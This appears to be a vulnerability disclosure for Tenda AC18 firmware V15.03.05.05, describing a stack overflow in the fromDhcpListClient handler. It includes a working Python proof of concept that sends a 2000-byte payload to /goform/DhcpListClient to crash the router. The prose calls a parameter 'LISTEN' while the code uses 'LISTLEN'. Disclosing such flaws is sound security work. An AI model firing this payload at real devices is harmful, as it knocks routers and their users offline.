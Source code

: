## Overview

- The device's official website: https://www.tenda.com.cn/product/overview/AC18.html

- Firmware download website: https://www.tenda.com.cn/download/detail-2610.html

## Affected version

V15.03.05.05

## Vulnerability details

The Tenda AC18 V15.03.05.05 firmware has a stack overflow vulnerability in the `fromDhcpListClient` function. We can set `LISTEN=1` and the program will enter line 30 and 33, which leads to a stack overflow vulnerability. Since the overflow overrides the `LISTEN` pointer variable, the `atoi` function will crash the program, causing a DOS attack in the second time looping.

![image-20240305215125627](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240305215125627.png)

## POC

```python
import requests
from pwn import*

ip = "192.168.84.101"
url = "http://" + ip + "/goform/DhcpListClient"
payload = b"a"*2000


data = {"LISTLEN":1,"page":1,"list1": payload}
response = requests.post(url, data=data)
print(response.text)
```

![image-20240305214216253](C:\Users\杨浩然\AppData\Roaming\Typora\typora-user-images\image-20240305214216253.png)
